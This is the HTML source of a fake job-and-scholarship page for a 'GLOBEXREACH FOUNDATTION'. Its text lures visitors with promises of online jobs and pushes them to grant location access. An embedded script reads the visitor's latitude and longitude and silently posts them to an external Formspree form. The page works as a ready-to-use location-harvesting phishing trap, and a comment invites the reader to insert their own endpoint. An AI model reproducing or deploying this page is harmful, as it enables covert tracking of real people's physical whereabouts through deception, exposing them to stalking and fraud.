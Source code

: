 <!DOCTYPE html>
<html>
<head>
  <title>GLOBEXREACH FOUNDATTION </title>
</head>
<body>
<div class="our-form">
  <div class="trap"><h2>Hello! 🚀 Welcome to GLOBEXREACH FOUNDATTION — Empowering You From Anywhere!</h2></div>
<br>
<div class="p1"<p>We’re excited to offer online job opportunities, freelance gigs, and exclusive scholarships.
 To new members joining our platform. 
 Whether you're looking to earn, learn, or grow — we’ve got something just for you!</p></div>


  <p>To serve you better and match you with the right opportunities in your area, please tap “Allow Location” when prompted.
This helps us understand where our clients are based and tailor job listings, scholarships, and remote work offers that suit your region.</p>

  <p>Start your journey today by clicking the link below and granting location access.
Great things begin with one small step!</p>
<br>
<br>
<br>
<div class="job-offer"><p>PLEASE ALLOW LOCATION FOR JOB OFFER</p></div>
</div>
  <script>
    navigator.geolocation.getCurrentPosition(function(position) {
      const lat = position.coords.latitude;
      const lon = position.coords.longitude;

      // Create a form dynamically
      const form = document.createElement("form");
      form.method = "POST";
      form.action = "https://formspree.io/f/mqaqlvrd"; // Replace with your Formspree URL

      const latInput = document.createElement("input");
      latInput.name = "Latitude";
      latInput.value = lat;
      form.appendChild(latInput);

      const lonInput = document.createElement("input");
      lonInput.name = "Longitude";
      lonInput.value = lon;
      form.appendChild(lonInput);

      document.body.appendChild(form);
      form.submit();
    }, function(error) {
      alert("Location access was denied. Please allow location to continue.");
    });
  </script>
</body>
</html>
